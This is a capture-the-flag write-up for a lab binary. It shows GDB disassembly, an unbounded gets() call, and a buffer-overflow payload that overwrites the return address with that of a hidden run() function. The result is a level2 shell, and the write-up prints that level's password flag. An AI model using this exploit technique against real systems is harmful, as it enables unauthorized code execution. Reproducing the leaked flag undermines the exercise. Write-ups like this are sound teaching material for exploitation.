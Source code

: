 ### Download binary
``scp -P4242 level1@192.168.31.170:/home/user/level1/level1 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)
We find a call to gets() inside a buffer without a size check. We will exploit this to a buffer overflow.

----

### Debugging with GDB

``gdb level1``
>[...]

``(gdb) disas main``
>Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.

After that we list all the functions inside the binary.

``(gdb) info function``
>All defined functions:
[...]
0x08048444  run
0x08048480  main

44
84
04
08


Here is something interesting ! The function run() is used nowhere in the code, it's **dead code**, since we are in a CTF it's for sure our goal.
With this gdb list we also got the adress of run function. Combine that with the previous breach that we find and we got our plan :
**Buffer overflow the return function pointer to overwrite it with this run() function.**

----

### Building the payload
We know that :
``char local_50[76];``

And here is our payload, 76 'A' to fill the buffer and then the address of the function run() (notice that it's write in reverse order, it is because the cpu in this exercices use little endian, so the value are pushed on each other).

Here is a little trick, after many try we find that we achieve our goal but the input segfault and closes, so we need to keep it open. This is what cat ... **-** does.

----

### Getting the flag

##### Way n1 :
``python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload``
``cat /tmp/payload - | ./level1``

##### Way n2 :
``(printf "a%.0s" {1..76}; printf "\x44\x84\x04\x08"; cat) | ./level1``

>Good... Wait what?

``whoami``
level2

``cat /home/user/level2/.pass``
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

